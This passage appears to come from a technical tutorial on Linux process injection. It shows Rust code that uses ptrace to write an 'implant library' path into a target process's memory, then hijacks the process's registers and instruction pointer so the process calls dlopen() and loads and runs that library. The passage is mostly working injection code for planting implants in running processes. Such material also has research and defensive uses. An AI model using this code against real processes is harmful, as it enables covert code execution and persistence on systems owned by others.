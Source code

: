 Given the address of the new map, we can write the path of the implant library to the target's memory.

````rust
// Write the shared object path to the new page in the target process memory
let path_bytes = so_path.as_bytes();
for chunk in path_bytes.chunks(8) {
    let mut padded_chunk = [0u8; 8];
    for (i, &byte) in chunk.iter().enumerate() {
	padded_chunk[i] = byte;
    }
    unsafe {
	ptrace::write(
	    pid,
	    regs_updated.rax as *mut c_void,
	    u64::from_ne_bytes(padded_chunk) as *mut c_void,
	)?
    };
    regs_updated.rax += 8;
}

ptrace::detach(pid, None)?;

// Return address of path in target process memory
Ok(address)
````


### Call `dlopen()` {#call-dlopen}

Now that we have the address of both `dlopen()` and the path string, we can finally call `dlopen()` to load and run the implant library.

````rust
// Attach to the target process
ptrace::attach(pid)?;

// Wait until the process stops
waitpid(pid, None)?;

let snapshot = Snapshot::new(pid)?;
let mut regs = snapshot.registers.clone();

regs.rdi = p_so_path;
regs.rsi = 1; // RTLD_LAZY
regs.r9 = p_dlopen;

ptrace::setregs(pid, regs)?;

// call r9; int 3  0xccd1ff41
unsafe {
    ptrace::write(
	pid,
	snapshot.registers.rip as *mut c_void,
	0xccd1ff41 as *mut c_void,
    )?
};
ptrace::cont(pid, None)?;
waitpid(pid, None)?;

snapshot.restore()?;

ptrace::detach(pid, None)?;
Ok(())
````
